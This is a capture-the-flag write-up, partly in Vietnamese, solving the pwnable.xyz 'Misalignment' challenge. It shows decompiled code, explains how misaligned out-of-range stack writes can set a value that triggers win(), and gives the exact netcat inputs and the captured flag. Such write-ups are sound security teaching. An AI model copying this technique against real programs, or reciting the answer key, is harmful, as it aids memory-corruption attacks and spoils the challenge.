 # Pwnable.xyz Misalignment
## Analysis
Ch&#432;&#417;ng tr&#236;nh 3 s&#7889;, trong &#273;&#243; -7 <= local_78 <= 9  
N&#7871;u  auStack_a0.\_7_8_ == 0xb000000b5 th&#236; h&#224;m win &#273;&#432;&#7907;c g&#7885;i
```
undefined8 main(void)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined local_a8 [8];
  undefined auStack_a0 [24];
  long local_88;
  long local_80;
  long local_78 [13];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  memset(local_a8,0,0x98);
  auStack_a0._7_8_ = 0xdeadbeef;
  while( true ) {
    iVar1 = __isoc99_scanf("%ld %ld %ld",&local_88,&local_80,local_78);
    if (((iVar1 != 3) || (9 < local_78[0])) || (local_78[0] < -7)) break;
    *(long *)(auStack_a0 + (local_78[0] + 6) * 8) = local_80 + local_88;
    printf("Result: %ld\n",*(undefined8 *)(auStack_a0 + (local_78[0] + 6) * 8));
  }
  if (auStack_a0._7_8_ == 0xb000000b5) {
    win();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
&#272;&#226;y l&#224; m&#244; ph&#7887;ng gi&#225; tr&#7883; c&#7911;a auStack_a0.\_7_8_ tr&#234;n stack:
```
| ef | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 00 | 00 | 00 | 00 | 00 | de | ad | be |
```
Nh&#432; v&#7853;y, khi local_78 l&#224; -6, 0xef c&#243; th&#7875; &#273;&#7893;i th&#224;nh 0xb5. Khi l&#224; -5, 0xdeadbe &#273;&#7893;i th&#224;nh 0xb00000
## Solution
```
└─$ nc svc.pwnable.xyz 30003
-5404319552844595200 0 -6
Result: -5404319552844595200
184549376 0 -5
Result: 184549376
a
FLAG{u_cheater_used_a_debugger}
```
## Flag
```
FLAG{u_cheater_used_a_debugger}
```